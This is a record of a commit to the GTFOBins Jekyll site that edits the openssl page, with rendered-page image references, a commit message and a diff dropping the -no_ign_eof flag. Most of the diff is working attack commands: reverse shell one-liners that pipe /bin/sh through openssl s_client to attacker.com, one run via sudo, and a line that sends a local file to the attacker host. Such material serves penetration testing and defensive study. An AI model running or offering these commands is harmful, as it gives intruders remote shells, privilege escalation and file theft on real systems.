

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 1400 px high, scrolled down 1355 px. Shown: the part 723-1372 px from the top of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Remove -no_ign_eof from openssl
As discussed in #121.

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -11,7 +11,7 @@ functions:
       code: |
         RHOST=attacker.com
         RPORT=12345
-        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
   file-upload:
     - description: |
         To collect the file run the following on the attacker box:
@@ -24,7 +24,7 @@ functions:
         RHOST=attacker.com
         RPORT=12345
         LFILE=file_to_send
-        openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT < "$LFILE"
+        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
   file-download:
     - description: |
         To send the file run the following on the attacker box:
@@ -62,7 +62,7 @@ functions:
       code: |
         RHOST=attacker.com
         RPORT=12345
-        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
 
     - code: |
         LFILE=file_to_write
@@ -78,5 +78,5 @@ functions:
       code: |
         RHOST=attacker.com
         RPORT=12345
-        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
 ---
```
